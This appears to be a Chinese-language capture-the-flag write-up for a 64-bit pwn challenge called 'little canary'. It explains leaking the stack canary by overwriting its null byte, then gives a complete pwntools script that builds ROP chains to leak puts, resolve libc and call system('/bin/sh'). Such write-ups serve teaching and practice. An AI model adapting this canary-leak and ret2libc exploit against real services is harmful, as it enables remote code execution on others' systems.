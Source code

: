 ```yaml
---
title: little canary
date: 2023/9/25 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

先溢出字符数组读取Canary的值

**注意：Canary的第一字节是\0，需要先覆盖才能打印出后面内容，之后还要还原**

获取canary的值后就可以考虑rop  
由于不存在后门且开了NX，所以后面根据ret2libc做即可

## EXPLOIT

```python
import LibcSearcher
from pwn import *

sh = remote('localhost', 43655)

# payload 1
sh.sendline(b'0'*68 + b'FLAG') # override the canary first byte '\0' with '\n'

sh.recvuntil(b'FLAG\n') # skip
canary = u64(b'\0' + sh.recvline()[:7]) # restore the overrided '\0'

elf = ELF('canary')
putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x00401343
vulnAddr = elf.symbols['vuln']

# payload 2
sh.sendline(b'0'*72 + p64(canary) + b'0'*8 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvline() # skip
putsGotAddr = u64(sh.recvline()[-7:-1] + b'\0\0')
libc = LibcSearcher.LibcSearcher("puts", putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump("puts")
shstrAddr = libcBase + libc.dump("str_bin_sh")
systemAddr = libcBase + libc.dump("system")
retAddr = 0x004012b9

# payload 3
sh.sendline(b'skip this input')

# payload 4
sh.sendline(b'0'*72 + p64(canary) + b'0'*8 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
